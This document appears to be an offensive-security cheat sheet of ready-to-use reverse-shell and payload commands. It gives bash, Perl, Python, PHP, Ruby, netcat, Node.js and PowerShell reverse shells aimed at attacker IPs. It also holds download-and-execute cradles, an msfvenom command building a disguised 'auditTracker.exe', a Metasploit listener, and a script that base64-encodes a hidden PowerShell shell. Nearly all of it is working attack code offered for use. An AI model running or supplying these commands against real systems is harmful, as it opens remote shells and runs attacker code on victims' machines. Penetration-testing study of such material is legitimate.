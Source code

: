 # SHELL UPGRADE
```bash
# Shell to bash (Does not work with rlwrap!!)
SHELL=/bin/bash script -q /dev/null
Ctrl + Z
stty raw -echo;fg

# Python pty
python3 -c 'import pty; pty.spawn("/bin/bash")'
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm

Ctrl + Z

stty raw -echo; fg
stty size
stty rows 38 columns 116
```
eval "$(stty size | awk '{printf "stty rows %s columns %s", $1, $2}')"

-----------------------

# ONE-LINERS
```bash
# Linux
sh <(curl -sSf http://my-server/myscrit.sh)

# Windows
powershell.exe -NoP -NonI -W Hidden -Exec Bypass IEX (New-Object Net.WebClient).DownloadString('http://myserver/my.ps1'); <params>
```

-----------------------

# METERPRETER
```bash
msfconsole > use multi/script/web_delivery > run
# Copy output on current reverse shell
```

-----------------------

# BASH
```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
bash -c "bash -i >& /dev/tcp/192.168.45.183/443 0>&1"
bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.119.3%2F4444%200%3E%261%22
```

-----------------------

# PERL
```bash
perl -e 'use Socket;$i="192.168.2.210";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

-----------------------

# PYTHON
```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.218",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

-----------------------

# PHP
```bash
<?php $sock=fsockopen("192.168.45.218",80);exec("/bin/sh -i <&3 >&3 2>&3"); ?>
php -r '$sock=fsockopen("192.168.45.218",80);exec("/bin/sh -i <&3 >&3 2>&3");'
```

-----------------------

# RUBY
```bash
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

-----------------------

# NETCAT
```bash
nc -e /bin/sh 10.0.0.1 1234
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.45.218 1234 >/tmp/f
```

-----------------------

# MALICIOUS EXE
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.235 LPORT=7777 -f exe -o auditTracker.exe
```

-----------------------

# LISTENER ENDPOINT
```bash
msfconsole -x "use multi/handler;set payload windows/x64/meterpreter/reverse_tcp; set lhost 192.168.45.235; set lport 7777; set ExitOnSession false; exploit -j"
```

-----------------------

# POWERSHELL
```bash
powershell -c "iex(new-object net.webclient).downloadstring(\"http://192.168.45.235:1337/Invoke-PowerShellTcp.ps1\")" 
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.177:8000/powercat.ps1'); powercat -c 192.168.45.177 -p 4444 -e powershell"
```

-----------------------

# CREATE POWERSHELL ONE-LINER
```bash
import sys
import base64

payload = '$client = New-Object System.Net.Sockets.TCPClient("192.168.118.10",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()

print(cmd)
```
-----------------------

# NODEJS
```bash
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(21, "192.168.45.165", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();
```
-----------------------

# Shell for unreliable exploit
```bash
# Windows
payload_1 = f'cmd.exe /c mkdir C:\TEMP'.encode('utf-8')
payload_3 = f'powershell -c "iwr -uri http://192.168.45.215/shell.exe -Outfile C:\TEMP\shell.exe"'.encode('utf-8')
payload_4 = f'cmd.exe /c "C:\TEMP\shell.exe"'.encode('utf-8')

# Linux
1. Write a script with a reverse shell
2. Pass it onto the machine
3. at now -f /home/aero/shell.sh (run the shell with `at`)
```


